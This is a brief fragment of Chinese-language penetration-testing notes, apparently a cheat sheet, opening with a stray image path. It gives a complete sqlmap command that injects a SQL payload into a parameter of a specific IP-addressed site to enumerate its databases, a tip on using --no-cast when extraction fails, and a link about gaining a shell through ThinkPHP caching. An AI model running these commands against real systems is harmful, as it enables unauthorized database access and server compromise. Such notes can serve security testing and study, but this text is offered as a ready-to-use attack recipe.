- SQLMA获取不到数据的情况下，使用`--no-cast`编码获取。

- DEDECMS：

  ```
  sqlmap -u "http://106.75.10.27/index.php?s=/Home/Article/index.html&category[0]==1 or 1=1))*%23between&category[1]=aaaaaa" --dbms=mysql --dbs --no-cast
  ```

- thinkphp缓存getshell：[<https://xz.aliyun.com/t/99>](https://xz.aliyun.com/t/99)



